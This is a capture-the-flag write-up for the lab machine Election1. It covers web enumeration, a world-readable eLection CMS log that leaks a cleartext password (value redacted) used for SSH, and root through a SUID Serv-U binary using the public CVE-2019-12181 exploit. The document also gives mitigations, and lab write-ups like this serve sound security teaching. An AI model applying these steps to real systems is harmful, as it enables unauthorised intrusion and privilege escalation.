

<!-- writeup-meta
title: Election1
platform: Proving Grounds Play
os: Linux
difficulty: Intermediate
ip: 192.168.241.211
date: 2026-10-19
tags:
  - writeup
  - linux
  - information-disclosure
  - suid
  - cve-2019-12181
  - privesc
-->
# Election1

> [!NOTE]
> **TL;DR** — The web root hides an **eLection** CMS whose admin panel logs are world-readable. A `system.log` leaks the cleartext password for the user `love`, which is reused on SSH. Root comes from a SUID `Serv-U` binary vulnerable to CVE-2019-12181.
>
> **Path:** `robots.txt` → `/election` CMS → world-readable `admin/logs/system.log` leaks `love`'s password → SSH → SUID `Serv-U` (CVE-2019-12181) → root

## 1. Recon

### 1.1 Nmap

Just SSH and a web server:

```bash
$ nmap -Av -sS -p- 192.168.241.211
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

### 1.2 Web enumeration

Port 80 is the stock Apache page, so straight to a directory brute-force:

```bash
$ feroxbuster -u http://192.168.241.211/ -x php,html,txt
301      GET      http://192.168.241.211/phpmyadmin => .../phpmyadmin/
200      GET      http://192.168.241.211/robots.txt
```

`robots.txt` lists directory names, one of which is live:

```bash
$ curl -s http://192.168.241.211/robots.txt
admin
wordpress
user
election
```

> [!WARNING]
> **Dead end:** phpMyAdmin is present, but default credentials just returns `#1045 Access denied`. No quick win there — move on.

`/election` is an **eLection** "Web Based Election System". The public Candidates page already leaks a name — a candidate **Love** with the handle `admin1`:


Enumerating `/election` exposes the admin area and, crucially, a logs directory:

```bash
$ feroxbuster -u http://192.168.241.211/election -x php,html,txt
301      GET      http://192.168.241.211/election/admin        => .../admin/
200      GET      http://192.168.241.211/election/admin/logs/system.log
```

The admin panel wants an "Admin ID" I don't have (`admin1` is rejected):



## 2. Foothold

### 2.1 Credentials leaked in the log

> [!IMPORTANT]
> **Vulnerability:** eLection writes its admin activity log to `admin/logs/system.log`, which is served without authentication — and the log records newly assigned passwords in **cleartext**.

```bash
$ curl -s http://192.168.241.211/election/admin/logs/system.log
[2020-01-01 00:00:00] Assigned Password for the user love: [REDACTED]
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
```

The Candidates page gave the name `love`; the log gives the password. They work straight away on SSH:

```bash
$ ssh love@192.168.241.211
love@election:~$ id
uid=1000(love) gid=1000(love) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),...
```

- **Initial access as:** `love`
- **local.txt:** `[REDACTED]`

## 3. Privilege Escalation

### 3.1 Enumeration — SUID binaries

A SUID sweep turns up a very non-standard entry:

```bash
love@election:~$ find / -perm -4000 2>/dev/null
...
/usr/bin/pkexec
/usr/local/Serv-U/Serv-U
...
```

`/usr/local/Serv-U/Serv-U` is the SolarWinds Serv-U FTP server, running SUID root — not something a stock Ubuntu ships. A quick search ties this version to **CVE-2019-12181**, a local privilege escalation ([Exploit-DB 47009](https://www.exploit-db.com/exploits/47009)).

### 3.2 Exploitation — Serv-U CVE-2019-12181

> [!TIP]
> **Why it works:** the Linux Serv-U binary is SUID root and, when run with `-prepareinstallation`, passes its own `argv[0]` (the process name) straight into a `system()` call with no sanitisation — an OS command injection executed as root (CVE-2019-12181, CWE-78). Exploit `47009` launches the SUID binary under a malicious process name, so the injected command spawns a root shell — no FTP login needed.

```bash
love@election:~$ gcc 47009.c -o 47009
love@election:~$ ./47009
opening root shell
```

### 3.3 Root

```bash
# id
uid=0(root) gid=0(root) groups=0(root),...,1000(love)
# cat /root/proof.txt
[REDACTED]
```

- **Escalated to:** `root`
- **proof.txt:** `[REDACTED]`

## 4. Lessons Learned

- **Read app logs over HTTP before anything clever.** The whole foothold was a world-readable `admin/logs/system.log` with a password in cleartext. Known web apps keep logs, configs, and backups in predictable paths — always check them before attacking the login.

- **Harvest names from the app itself.** The Candidates page handed over `love` (and the red-herring `admin1`). The admin panel's "Admin ID" gate was the intended wall; the log leak walked around it.

- **An unexpected SUID binary is the privesc.** Stock Ubuntu doesn't ship `Serv-U`. A single odd entry in `find / -perm -4000` — a third-party server running SUID root — was the entire escalation. Diff the SUID list against what a clean box should have.

- **phpMyAdmin wasn't it.** `admin:admin` was worth ten seconds, no more — don't grind a login the box isn't built around.

- **New technique for my notes:** eLection log-disclosure → cleartext creds; SUID Serv-U CVE-2019-12181 local root.

## 5. Mitigation

- **Never serve application logs.** Keep `logs/` outside the web root (or deny it in the server config), and never log passwords in cleartext — that single line was game over.

- **Patch or remove Serv-U.** Upgrade to ≥ 15.1.7 for CVE-2019-12181, and drop the SUID bit from any third-party binary that doesn't strictly need it.

- **Don't reuse web-app passwords for the OS account.** `love`'s eLection password being valid on SSH turned an information leak into a shell.

## References

- [Exploit-DB 47009 — Serv-U FTP < 15.1.7 Local Privilege Escalation (CVE-2019-12181)](https://www.exploit-db.com/exploits/47009)
- [eLection — Web Based Election System (Tripath Projects)](https://github.com/Choudhury-Ashish-15/eLection)
- [HackTricks — SUID binaries](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#suid)
